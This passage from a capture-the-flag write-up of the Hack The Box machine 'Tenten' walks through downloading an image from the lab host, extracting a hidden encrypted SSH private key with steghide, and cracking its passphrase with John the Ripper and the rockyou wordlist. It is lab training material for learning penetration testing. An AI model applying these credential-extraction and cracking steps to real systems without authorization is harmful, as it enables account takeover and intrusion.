 The script successfully finds the file, and when we open the resulting URL, we get the following image:

**Found:**  
`/wp-content/uploads/2017/04/HackerAccessGranted.jpg`



**Key Discovery:**
* Found application: `HackerAccessGranted`
* File location: `/wp-content/uploads/2017/04/HackerAccessGranted.jpg`

---
## Steganography Analysis

### File Extraction

Downloaded and analyzed the suspicious image file:

```bash
# Download the file
wget http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg

# Using the `info` parameter from `steghide`, we discover that the image contains a hidden RSA private key.

To extract the hidden data using steghide, we use the following command:

# Extract 
steghide extract -sf HackerAccessGranted.jpg
```

**Result:** Extracted an SSH private key (`id_rsa`)

### SSH Key Analysis

```bash
# Check the extracted key
cat id_rsa
# Key is encrypted and requires a passphrase
```
---
## Credential Cracking

### SSH Key Cracking with John the Ripper

```bash
# Convert SSH key to John format
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash

# Crack the passphrase
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
